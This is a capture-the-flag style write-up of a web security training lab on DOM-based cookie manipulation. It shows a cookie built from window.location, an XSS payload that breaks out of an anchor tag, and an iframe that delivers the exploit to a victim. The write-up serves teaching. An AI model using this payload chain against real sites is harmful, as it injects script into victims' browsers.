










# Lab: DOM-based Cookie Manipulation


## Objective
This lab demonstrates DOM-based client-side cookie manipulation. To solve this lab, inject a cookie that will cause XSS on a different page and call the `print()` function. You will need to use the exploit server to direct the victim to the correct pages.

---

## Analysis

### Initial Observation

- **Inspecting the Source Code of Homepage:**
  - Upon checking the source code of the homepage, no interesting JavaScript vulnerabilities were found.
  

- **Exploring the "View Details" Section:**
  - Viewing the "details" section revealed the following JavaScript code:
    ```html
    <script>
        document.cookie = 'lastViewedProduct=' + window.location + '; SameSite=None; Secure';
    </script>
    <div class="is-linkback">
        <a href="/">Return to list</a>
    </div>
    ```
  

- **Last Viewed Product Link:**
  - The "Last viewed product" link in the source code:
    ```html
    <a href='https://0a9200210312412c80c80316008200df.web-security-academy.net/product?productId=1'>Last viewed product</a>
    ```
  

### Vulnerability Analysis

- **Cookie Manipulation:**
  - The JavaScript code sets a cookie based on the `window.location` value.
  - The cookie is not marked as `HttpOnly`, making it accessible via JavaScript.
  

- **Exploitable Cookie Field:**
  - The cookie field can be manipulated to inject malicious payloads.
  - By escaping the single quote and breaking out of the `<a>` tag, we can inject an XSS payload.

### XSS Payload

- **Payload to Inject:**
  ```html
  '><script>print()</script>
  ```
  - This payload escapes the `<a>` tag and injects a `<script>` tag.
  

- **Triggering the XSS:**
  - Refresh the page and revisit the website to execute the payload.
  

- **Source Code After Triggering XSS:**
  

---

## Exploitation

### Crafting the Exploit

- **Using the Exploit Server:**
  - Construct an iframe to deliver the payload:
    ```html
    <iframe src="https://url_that_contains_cookie_with_script" onload="this.src='https://url'">
    ```

- **Final Payload:**
  ```html
  <iframe src="https://0a9200210312412c80c80316008200df.web-security-academy.net/product?productId=1&'><script>print()</script>" 
          onload="this.src='https://0a9200210312412c80c80316008200df.web-security-academy.net/product?productId=1'">
  ```
  - The `&` is used before the `'>` because the payload is sent via the URL.
  

### Testing the Exploit

- **View Exploit:**
  - Check if the payload executes XSS by viewing the exploit.
  

- **Deliver to Victim:**
  - Send the exploit to the victim to solve the lab.
  

---

## Conclusion
By exploiting the insecure handling of cookies and the lack of `HttpOnly` protection, we successfully triggered a DOM-based XSS vulnerability. This highlights the importance of securing cookies and validating user inputs to prevent such attacks.